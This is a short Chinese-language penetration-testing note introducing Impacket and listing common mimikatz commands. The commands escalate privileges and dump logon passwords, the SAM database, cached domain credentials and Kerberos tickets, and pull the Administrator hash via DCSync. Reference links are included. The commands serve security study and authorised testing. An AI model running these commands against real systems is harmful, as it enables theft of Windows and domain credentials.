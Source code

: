 Impacket 是一个内网渗透的“命令行航母”，它将复杂的Windows网络协议攻击封装成了简单易用的脚本

简单的说， Impacket是一个用Python编写的、用于处理网络协议的类库集合

[https://github.com/fortra/impacket](https://github.com/fortra/impacket)

### mimikatz 猕猴桃

[https://github.com/ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

常用操作

**提升权限**

```
privilege::debug
```

**导出系统凭据:**

```
sekurlsa::logonpasswords
```

**导出SAM数据库:**

```
lsadump::sam
```

**导出缓存的域凭据:**

```
lsadump::cache
```

**Kerberos票据操作:**

```
sekurlsa::tickets
kerberos::list
```

**导出NTDS.dit (域控制器):**

```
lsadump::dcsync /user:Administrator
```

## 参考文章

[https://www.cnblogs.com/kalixcn/p/18138330](https://www.cnblogs.com/kalixcn/p/18138330)

[https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/)
